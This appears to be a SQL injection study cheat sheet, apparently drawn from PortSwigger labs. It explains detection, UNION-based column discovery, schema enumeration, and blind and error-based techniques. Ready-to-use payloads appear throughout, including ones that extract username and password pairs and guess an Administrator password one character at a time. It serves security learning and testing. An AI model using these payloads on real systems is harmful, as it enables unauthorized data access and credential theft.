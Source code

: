 # SQL injection

<details>
<summary>$\huge{\text{SQL Injection Cheatsheet}}$</summary>
<br>

- https://tib3rius.com/sqli
    
<br>
</details>

<details>
<summary>$\huge{\text{How to detect SQL injection vulnerabilities}}$</summary>
<br>

- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
    
<br>
</details>

<details>
<summary>$\huge{\text{SQL injection in different parts of the query}}$</summary>
<br>

- Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
- However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT [column, table], ORDER BY)
    
<br>
</details>

<details>
<summary>$\huge{\text{Warning: OR 1=1 }}$</summary>
<br>

- If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.
    
<br>
</details>

<details>
<summary>$\huge{\text{SQL injection UNION attacks}}$</summary>
<br>

- Requirements
  - How many columns are being returned from the original query
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query
    
<br>
</details>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Determining the number of columns required}}$</summary>
<br>

- First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  - Example (the injection point is a quoted string within the `WHERE` clause)
  - ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
- Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  - NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct. 
  - ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
- Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Database-specific syntax}}$</summary>
<br>

- Example:
  - Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  - MySQL: the double-dash sequence must be followed by a space
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Finding columns with a useful data type}}$</summary>
<br>

- Do you want a string?
  - ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  - Error example: Conversion failed when converting the varchar value 'a' to data type int.
   - If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Examining the database}}$</summary>
<br>

| Database type 	| Query |
| ----- | ----- |
| Microsoft, MySQL | 	SELECT @@version |
| Oracle 	| SELECT * FROM v$version |
|PostgreSQL | 	SELECT version() |
- `' UNION SELECT @@version--`
- Listing the contents of the database
- Most database types (except Oracle) have a set of views called the information schema
  - `information_schema.tables `
    - |TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
      | -- | -- | -- | -- |
      | MyDatabase | dbo | Products | BASE TABLE |
    - ` SELECT * FROM information_schema.tables`
  - ` information_schema.columns `
    - | TABLE_CATALOG |TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
      | -- | -- | -- | -- | -- |
      |MyDatabase | dbo | Users | UserId | int |
    - `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Oracle:
  - `SELECT * FROM all_tables`
    - `SELECT TABLE_NAME FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    - `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

<br>
</details>
</dd></dl></dd></dl>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Retrieving multiple values within a single column}}$</summary>
<br>

- You can retrieve multiple values together within this single column by concatenating the values together
- `' UNION SELECT username || '~' || password FROM users--`
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<details>
<summary>$\huge{\text{Blind SQL Injection}}$</summary>
<br>

- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
    
<br>
</details>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Triggering conditional responses}}$</summary>
<br>

- `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  - …xyz' AND '1'='1
    - The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed. 
  - …xyz' AND '1'='2
    - The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
- Extract data one piece at a time
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    - This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    -  This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    - ... Confirm that the first character of the password is `s`
  - We can continue this process to systematically determine the full password for the Administrator user.
- `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Error-based SQL injection}}$</summary>
<br>

- Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.
- It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
- `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  - The CASE expression evaluates to 'a', which does not cause any error.
- `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  - It evaluates to 1/0, which causes a divide-by-zero error.
-  You can use this to determine whether the injected condition is true.
  -  `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
- Note: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet


<br>
</details>
</dd></dl></dd></dl>



